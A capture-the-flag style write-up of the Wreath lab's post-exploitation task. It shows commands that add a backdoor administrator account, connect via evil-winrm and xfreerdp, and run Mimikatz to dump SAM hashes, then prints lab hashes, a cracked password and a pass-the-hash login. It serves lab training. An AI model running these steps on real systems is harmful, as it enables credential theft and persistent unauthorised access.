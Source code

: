 **Task 21: Stabilisation & Post Exploitation**

For this task we have to make changes in the prov-serv only the commands are as follows...

Make sure to execute the commands in proper syntax cause the command prompt wont response to errors..
- 1. Create your a user with any name you want
 
         net user USERNAME PASSWORD /add

- 2. Add the user in the Administration directory
 
         net localgroup Administrators USERNAME /add

- 3. Now add the user in the remote managment group
 
         net localgroup Administrators USERNAME /add

- 4. Now verify wether you have done the process correctly
 
         net user <yourusername>

![Screenshot_2023-08-08_04_50_52](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/2fa161a4-cb4b-411c-9d0b-7e7e4a1670c0)

After doing all this lets move forward with the installtion of evil-winrm, if its not installed by deafult in your system type the command
to install it using ruby.

    sudo gem install evil-winrm


After this we try to connect to the win machine using the following commands:

    evil-winrm -u <yourusername> -p <pass> -i <tragetip>

After this check wether you are connected successfully or not by typing the command as `whoami`

Then check the group of the account wether its, the prev steps that we did were correct or not by just adding `/group` ..

The whole process will look something like this:

![Screenshot_2023-08-09_03_00_09](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/9437e052-d216-44b2-b222-dbdab3a60bde)


Lets see all the users that are pressent in the system .

So we have total 5 users including me, in the next task we have to extract the password of the Administrative account..

For this we will be using the RDP method

If you are using VM make sure to increase your RAM upto like 6 gb..

![Screenshot_2023-08-09_03_17_52](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/b1baf9db-d144-4537-a4ec-1741b2eb6ad9)

After this we will be using this command ..

    xfreerdp /v:10.200.57.150 /u:trial2222 /p:giligilichu +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share

After doing this we will check wether we have the access on not..

![shared](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/78f17575-ff5f-4274-bab3-82d12d42b4c5)


Yes we do have the access

With GUI access obtained and our Windows resources shared to the target, we can now very easily use Mimikatz to dump the local account password hashes for this target. Next we open up a cmd.exe or PowerShell window as an administrator 

First open the mimikatz 

   \\tsclient\share\mimikatz\x64\mimikatz.exe

You might be wondering what mimikatz is..

Mimikatz is both an exploit on Microsoft Windows that extracts passwords stored in memory and software that performs that exploit. It was created by French programmer Benjamin Delpy and is French slang for "cute cats"

After gaining the access on it we will type the following commands..
- 1

        privilege::debug
  
Next:

    token::elevate

If you want to save the file in the logs then you can type the command as follows 

    log c:\windows\temp\mimikatz.log

![priv](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/3b51d99d-e2bd-43a0-ad99-2b5f069334ab)


We can now dump all of the SAM local password hashes using:

    lsadump::sam

U can use any user like if you want to use thomas change the command as lsadumo::thomas

One more thing if you want to copy something from the terminal `ctrl+c' won't instead try `ctrl+shift+c` same with paste option..

**Q.What is the Administrator password hash?**

    37db630168e5f82aafa8461e05c6bbd1

![adminhash](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/a5aaa5f7-0852-49e6-a25a-7709d897666c)

**Q. What is the NTLM password hash for the user "Thomas"?**

    02d90eda8f6b6b06c32d5f207831101f

**Q. What is Thomas' password?**

This can be cracked using the https://crackstation.net/

The result is : `i>3ruby`

In the real world this would be enough to obtain stable access; however, in our current environment, the new account will be deleted if the network is reset.

So for this we can save the administrative hash and try to connect with it using the command as follows

    evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.57.150

![adminpreo](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/94ed489f-9f61-4125-b4bf-50058be8d2a2)


With this task 21 ends...
